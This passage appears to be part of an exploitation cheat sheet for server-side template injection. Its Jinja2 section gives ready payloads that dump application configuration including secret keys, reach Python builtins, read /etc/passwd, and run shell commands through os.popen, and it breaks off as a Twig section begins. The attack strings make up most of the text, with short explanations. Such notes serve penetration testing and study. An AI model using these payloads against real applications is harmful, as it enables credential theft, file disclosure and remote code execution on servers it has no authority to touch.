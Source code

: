 ### 🔸 Dumping application configuration
```jinja2
{{ config.items() }}
```
- Reveals full configuration, including sensitive values like secret keys.

### 🔸 Accessing built-in functions
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
- Lists all available built-in Python functions and objects.
- Useful for crafting more advanced payloads.

---

## 📂 2. Local File Inclusion (LFI)

### 🔸 Reading a local file (e.g., `/etc/passwd`)
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
- Accesses and reads files on the server using Python’s `open()` from the built-in namespace.

---

## 💥 3. Remote Code Execution (RCE)

### 🔸 Executing a system command (e.g., `id`)
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
- Dynamically imports the `os` module and runs a shell command.
- Returns the output of the command to the response.

---

## 🛠️ Notes
- All payloads rely on Python internals accessible via the Jinja2 template context.
- Success depends on how restricted the template rendering context is by the application.



----
----
----

# 🧠 Exploiting SSTI – Twig

## 🔍 Assumptions
- SSTI vulnerability and use of the **Twig** template engine have already been confirmed.
- This note focuses only on **exploitation**, not detection.
- **Twig** is a template engine for **PHP**, commonly used in frameworks like **Symfony**.

---